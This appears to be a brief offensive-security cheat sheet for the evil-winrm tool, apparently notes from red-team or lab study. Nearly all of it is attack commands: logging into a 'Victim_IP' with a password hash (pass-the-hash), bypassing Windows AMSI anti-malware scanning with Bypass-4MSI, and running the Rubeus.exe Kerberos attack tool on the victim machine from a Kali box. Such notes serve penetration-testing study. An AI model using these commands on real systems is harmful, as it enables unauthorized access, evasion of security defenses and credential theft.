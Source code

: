 ```yaml
---
category: Uncategorized
tags: []
---
```

evil-winrm

~~~bash
evil-winrm -i Victim_IP -u User -H Hash
~~~

~~~bash
evil-winrm -i 10.100.1.5 -u svc.account -p password -P port
~~~

Displaying Evil-WinRM Options:

~~~bash
menu
~~~

Bypassing AMSI in a Evil-WinRM Console:

~~~bash
Bypass-4MSI
~~~

Remotely running Binary from Kali Box on Victim PC:

~~~bash
Invoke-Binary /home/kali/Rubeus.exe
~~~


